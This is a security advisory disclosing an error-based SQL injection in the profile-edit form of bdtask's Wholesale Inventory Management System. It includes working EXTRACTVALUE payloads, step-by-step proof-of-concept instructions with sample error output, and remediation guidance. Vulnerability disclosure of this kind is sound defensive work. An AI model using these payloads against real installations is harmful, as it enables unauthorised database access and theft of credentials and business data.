 # [Error-Based SQL Injection] in [Wholesale Inventory Management System]

---

### 👨‍💻 **BUG Author:**

### 4m3rr0r


---

### 📦 **Product Information:**

* **Vendor Homepage:** [https://www.bdtask.com](https://www.bdtask.com)
* **Software Link:** [https://codecanyon.net/item/wholesale-inventory-control-and-inventory-management-system/20291791](https://codecanyon.net/item/wholesale-inventory-control-and-inventory-management-system/20291791)
* **Demo URL:** `https://wholesaledemo.bdtask-demo.com/`
* **Affected Version:** Latest version as of 2025-10-13
* **BUG Author:** 4m3rr0r

---

### 🛠 **Vulnerability Details**

* **Type:** Error-Based SQL Injection
* **Affected URL:** `/Admin_dashboard/edit_profile`
* **Vulnerable Parameter:** `first_name`, `last_name` (in the POST request)
* **Vulnerable Component:** The user profile update functionality.

---

### 🧨 **Vulnerability Type**

* **SQL Injection**
* **CWE ID:** CWE-89: Improper Neutralization of Special Elements used in an SQL Command
* **Severity Level:** CRITICAL
* **CVSS Score:** 9.8 (Critical)

---

### 🧬 **Root Cause**

The application constructs an SQL `UPDATE` query by directly concatenating unvalidated and unsanitized user input from the "First name" and "Last name" fields. An attacker can inject a single quote (`'`) to break out of the SQL statement and append malicious commands. The application is configured to display database errors, allowing the attacker to exfiltrate data through error messages generated by functions like `EXTRACTVALUE`.

---

### ⚠️ **Impact**

* **Full Database Compromise:** An attacker can read, modify, or delete any data in the database.
* **Sensitive Data Exposure:** This includes administrator credentials, user information, inventory data, and sales records.
* **Authentication Bypass:** The vulnerability could potentially be used to extract user password hashes, leading to account takeovers.
* **Potential for RCE:** In some database configurations, SQL injection can be escalated to achieve Remote Code Execution on the server.

---

### 📋 **Description**

1.  **Vulnerability Details:**
    * The `edit_profile` page allows authenticated admins to update their personal information.
    * The `first_name` and `last_name` parameters are directly included in an SQL query without the use of prepared statements.

2.  **Attack Vectors:**
    * An attacker can use error-based payloads to force the MySQL database to reveal information within its error messages.
    * The `EXTRACTVALUE` function is used to trigger an invalid XPath syntax error, which includes the output of a nested SQL function (e.g., `VERSION()`).

3.  **Attack Payload Examples:**
    * To get the database version:
        ```sql
        ' AND EXTRACTVALUE(1, CONCAT(0x3a, VERSION())) -- -
        ```
    * To get the database user:
        ```sql
        ' AND EXTRACTVALUE(1, CONCAT(0x3a, USER())) -- -
        ```
    * To get the database name:
        ```sql
        ' AND EXTRACTVALUE(1, CONCAT(0x3a, DATABASE())) -- -
        ```

---

### 🔬 **Proof of Concept (PoC)**


[![Watch the video](https://img.youtube.com/vi/mYOFMDAEaYo/0.jpg)](https://youtu.be/mYOFMDAEaYo)


1.  Log in to the administrator panel.
2.  Navigate to the **"Edit Profile"** page (`/Admin_dashboard/edit_profile`).
3.  In the **"Last name"** field, enter the following payload:
    `' AND EXTRACTVALUE(1, CONCAT(0x3a, VERSION())) -- -`
4.  Submit the form.
5.  The application will fail and display a database error message on the screen, such as:
    `XPATH syntax error: ':10.11.13-MariaDB'`
6.  This error message confirms the vulnerability and reveals the database version. The same technique can be used with `USER()` and `DATABASE()` to extract more information.

---

### 🛡 **Suggested Remediation**

* **Use Parameterized Queries (Prepared Statements):** This is the most effective way to prevent SQL injection. The database query and the user data should be sent separately.
* **Validate and Sanitize Input:** As a secondary defense, all user input should be validated against a strict whitelist of expected characters and formats.


### 🔐 **Security Recommendations**

* Disable detailed database error messages in the production environment.
* Apply the Principle of Least Privilege to the database user, ensuring it only has the minimum permissions necessary.
* Conduct regular security code reviews and use static analysis (SAST) tools to find vulnerabilities.

---

### 📚 **References**

* [OWASP SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
* [CWE-89: SQL Injection](https://cwe.mitre.org/data/definitions/89.html)

---
